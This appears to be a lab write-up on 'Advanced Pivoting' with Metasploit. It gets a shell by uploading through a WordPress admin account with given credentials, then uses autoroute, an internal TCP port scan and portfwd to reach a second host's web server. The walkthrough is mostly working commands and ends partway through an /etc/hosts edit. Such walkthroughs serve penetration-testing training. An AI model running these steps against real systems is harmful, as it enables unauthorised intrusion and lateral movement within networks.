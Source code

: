 # Advanced Pivoting

Let's launch the `msfconsole`.

```bash
sudo su
msfconsole
search shell_upload
use exploit/unix/webapp/wp_admin_shell_upload
show options
set RHOST 10.0.100.10
set USERNAME sammy
set PASSWORD qwerty1
run
```

We are now in the interpreter.
Let's go to the shell and ping the second machine (media).
We'll first ping to see if we can reach the machine then setup an autoroute.

```bash
shell
ping 10.0.148.217
run autoroute -s 10.0.148.0/24
background
route print
```

That show us the following:

```bash
Subnet            Netmask            Gateway
------            -------            -------
10.0.148.0        255.255.255.0      Session 1
```

First of all, let's scan the ports.

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.0.148.217
run
```

This shows the opened ports.
In this example, it will be the `port 80`.

Now that we know there is something on `port 80`, let's try to detect it.
Let's try the `http_version` auxiliary module.

```bash
use auxiliary/scanner/http/http_version
show options
RHOSTS 10.0.148.217
```

This doesn't work, let's close it and try to use other methods.
We could use a sock server or port forwarding.

`-l` is the local port, `-p` is the port you want to forward to and `-r` is the final route.

```bash
sessions -i 1
portfwd add -l 80 -p 80 -r 10.0.148.217
```

Now the content provided in `port 80` of the media machine is accessible from our kali machine.
If we type 127.0.0.1 that show us the `media.hackerinthehouse.com` website.
The website doesn't load the css files, we could try to add it to our hosts.

```bash
nano /etc/hosts
127.0.0.1
```
